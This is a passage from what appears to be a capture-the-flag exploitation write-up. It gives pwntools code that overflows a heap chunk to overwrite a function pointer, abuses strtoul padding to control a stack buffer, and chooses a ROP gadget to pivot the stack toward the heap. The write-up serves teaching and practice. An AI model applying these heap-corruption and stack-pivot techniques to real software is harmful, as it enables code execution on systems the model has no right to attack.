 def print_chunk(idx, strtoul_pad = None):
    io.recvuntil(b'Choice: ')
    io.sendline(b'4')
    io.recvuntil(b'print: ')
    if strtoul_pad is None:
        io.sendline(str(idx).encode())
    else:
        io.sendline(str(idx).encode() + strtoul_pad)

def edit_chunk(new_msg, idx):
    io.recvuntil(b'Choice: ')
    io.sendline(b'2')
    io.recvuntil(b'edit: ')
    io.sendline(str(idx).encode())
    io.recvuntil(b'encrypt: ')
    io.sendline(new_msg)

# first chunk allocation
first_chunk_len = 129 
first_chunk_payload = b'\x41' * 128 + b'\x90' 
allocate_chunk(first_chunk_payload, first_chunk_len)
# second chunk allocation
second_chunk_len = 1
second_chunk_payload = b'\x43'
allocate_chunk(second_chunk_payload, second_chunk_len)
# edit the first chunk ```message``` in order to overflow to the next chunk and corrupt the function pointer of the second chunk with 0xdeadbeef
first_chunk_edited_payload = b'\x41' * 140 + p32(0xdeadbeef) 
edit_chunk(first_chunk_edited_payload, 0)
# print the second chunk in order to trigger a function call via corrupted pointer
print_chunk(1, b'\x41'*31) # send 31 A's to pad the remaining buffer and see what happens
io.interactive()
```

![strtoul_pad](https://user-images.githubusercontent.com/45107680/95122130-baf3fa00-0758-11eb-9f82-d41a150afa39.png)

Good news! I control 30 bytes in ```numbuf``` buffer passing the index validation check. Of course, it's too small space for a full payload, but it can be used to place a gadget address there that will allow me to redirect a stack pointer to a heap. So, I need a gadget like ```add esp, X ; ret``` in order to pivot to ```numbuf```. It turned out that there is a bunch of such gadgets, but I needed to save as much stack space as possible, because ```numbuf``` is not that big and I don't know yet if there are comfy gadgets to pivot easily to a heap from there. I've found a gadget that looks pretty neat to pivot into the controlled buffer on a stack - ```add esp, 0x20 ; mov eax, esi ; pop ebx ; pop esi ; ret```. Let's overwrite the second chunk function pointer with this gadget address and see the stack content during execution flow hijacking:

![check_stack_pivot](https://user-images.githubusercontent.com/45107680/95196234-79a72d00-07e0-11eb-9047-c735995edbe2.png)

Red arrow - initial ```esp``` position AFTER the pivoting into ```numbuf```
 
Green arrow - as I have 2 dummy pops from the stack pivot gadget, this memory can be used for overwriting with a gadget address that redirects a stack pointer to a heap.

```